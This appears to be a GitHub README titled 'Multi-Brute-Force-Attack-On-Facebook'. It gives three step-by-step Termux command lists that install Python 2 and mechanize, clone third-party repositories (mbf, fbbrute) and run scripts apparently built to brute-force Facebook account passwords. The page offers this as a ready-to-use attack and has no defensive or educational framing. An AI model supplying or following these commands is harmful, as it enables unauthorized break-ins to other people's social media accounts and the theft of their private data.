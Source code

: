 # MULTI-BRUTE-FORCE-ATTACK-ON-FACEBOOK  

So Let's Start....  
Step By Step  
First of All Download Termux from Google Play and Install it  After installing just give these commands to Termux  
And Run one by one  

![PicsArt_10-25-08 29 55](https://user-images.githubusercontent.com/75029023/111865355-9061ca80-89a1-11eb-91b9-6c5f35e01cfe.png)

# COMMAND LIST 1 
```
$ apt update && apt upgrade  
```
```
$ pkg install python2 
```
```
$ pkg install git  
```
```
$ pip2 install mechanize  
```
```
* $ git clone https://github.com/pirmansx/mbf 
``` 
```
* $ cd mbf 
```
```
* $ python2 MBF.py  
```

# COMMAND LIST 2  
* $ pkg update 
* $ pkg upgrade 
* $ pkg install python2  
* $ pkg install perl 
* $ pkg install curl 
* $ pkg install mechanize 
* $ pip2 install requsets 
* $ git clone https://github.com/Senitopeng/fbbrute 
* $ cd fbbrute 
* $ python2 fbbrute.py  

# COMMAND LIST 3 
* $ apt update && apt upgrade  
* $ pkg install pip 
* $ pkg install python 
* $ pkg install python2  
* $ pip2 install mechanize 
* $ pkg install git 
* $ git clone https://github.com/hnov7/mbf 
* $ cd mbf 
* $ ls 
* $ python2 mbf.py 
* $ 1 
* $ y

![44804662_315681345917191_1671247044175462400_o](https://user-images.githubusercontent.com/75029023/111865398-b4251080-89a1-11eb-802a-d00f8e6ed33c.jpg)


